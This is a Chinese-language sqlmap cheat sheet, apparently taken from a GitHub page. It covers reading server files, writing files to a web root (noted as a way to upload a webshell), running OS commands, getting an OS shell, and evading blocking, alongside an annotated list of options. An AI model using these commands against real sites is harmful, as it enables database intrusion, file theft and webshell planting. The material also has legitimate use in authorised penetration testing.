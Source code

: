 #### 执行特殊操作

**文件查看**

sqlmap -u "url" –file-read= //这个读取的文件会存在本地的结果目录，请认真看提示

**文件写入**

sqlmap -u "url" --file-write=本地文件路径 --file-dest=网站的绝对路径 //上传webshell用，需要dba权限

**命令执行**

sqlmap -u "url" --os-cmd "cmd"  //执行cmd代表的命令，如cd C:/

sqlmap -u "url" --os-shell  //进入数据库自带的shell

### 命令总览

使用`sqlmap -hh`可以查看详细的命令说明：

```json
-r 1.txt            对于用post方法提交的，参数不在URL里面的网页，可以先截获数据，保存成文件再用这个参数执行

-l log.txt          可以将代理的日志作为目标去检测[见下图]

-m 1.txt            对于多个URL，可以一排一个写入文件后加载

--force-ssl         对于使用SSL的URL要在后面加上这个参数

--data              对于使用post方法，可以将参数写在data后面

--param-del=""          

--cookie=""  level 2        对于需要验证才能访问的URL，可以加上cookie值验证，如果要检测cookie是否有注入漏洞，level要高于1

--random-agent          使用随机的user-agent

--user-agent=""  level 3    指定user-agent，如要检测它是否有漏洞level要高于2

--header="\n"           指定头信息，如User-Agent:dsacs，大小写敏感，多个用\n分隔

--method=GET POST       设置提交方式，默认一个一个的尝试

--auth-type             如果是基于http的验证，如Basic NTLM Digest，可直接加类型再配合下一个参数使用

--auth-cred "user:pass"     填写账号和密码

  --proxy="http:127.0.0.1:8087"  使用代理

--proxy-cred="name:pass"    如果代理要密码的话

--ignore-proxy          强制不使用代理

--delay             请求延迟间隔，单位秒，默认无延迟

--retries           链接失败重试次数3

--timeout           链接超时时间30

--randomize="param"     使用和源参数类型长度一致的参数

sqlmap -l l.log --scope="(www)?.target.(com|net|org)"     这是一个正则表达式，是对于log文件里面URL过多时，进行筛选，这里是只要com/net/org结尾的域名

sqlmap -l 2.log --scope="(19)?.168.20.(1|11|111)"        同上，筛选19*.168.20.1/11/111这几个网段的IP

--safe-url="url"        设置正确的URL，因为如果一直尝试错误的URL可能会被服务器拉黑，过几次登下正确的防止这个发生
```